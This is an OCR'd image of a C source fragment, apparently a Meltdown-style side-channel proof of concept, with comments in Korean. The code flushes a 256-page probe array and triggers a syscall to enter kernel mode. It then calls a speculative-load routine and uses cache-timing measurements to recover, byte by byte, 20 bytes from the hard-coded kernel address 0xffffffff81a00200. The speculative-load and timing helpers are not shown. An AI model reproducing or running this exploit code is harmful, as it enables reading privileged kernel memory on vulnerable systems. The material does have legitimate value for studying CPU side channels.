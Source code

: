 ```c
	}
	memset(mapping, 0, PAGE_SIZE * 256);

	int hit_log[256] = {0,};
	int min = 99999;
	int min_val;

	int max_hit = 0;
	int max_hit_val;

	for(int j=0;j<100;j++) {
		min = 99999;

		for(int i=0; i<256; i++) {
			// flush
			clflush(mapping[i]);

			// 컨텍스트 스위칭/커널 모드 진입을 위한 인터럽트 
			syscall(0, -1, 0, 0);

			// 캐시 메모리에 커널 메모리 값 로드
			specu(addr, mapping);

			// 하나씩 로드해보면서 캐시된 값 찾기
			unsigned long long t = measure_time(mapping[i]);

			// 로드까지 가장 짧게 걸린 값 구하기
			if (t < min) {
				min = t;
				min_val = i;
			}
		}
		hit_log[min_val]++;
	}

	for(int i=0; i<256; i++) {
		if(max_hit < hit_log[i]) {
			max_hit = hit_log[i];
			max_hit_val = i;
		}
	}

	printf("%p : %x\n", addr, max_hit_val);
}


int main(int argc, char ** argv) {
	void *addr;
	addr = 0xffffffff81a00200;

	// 읽어들일 버퍼의 크기
	int len = 20;
	
	for(int i=0; i<20; i++){
		estimate_byte(addr + i);
	}
	return 0;
}
```
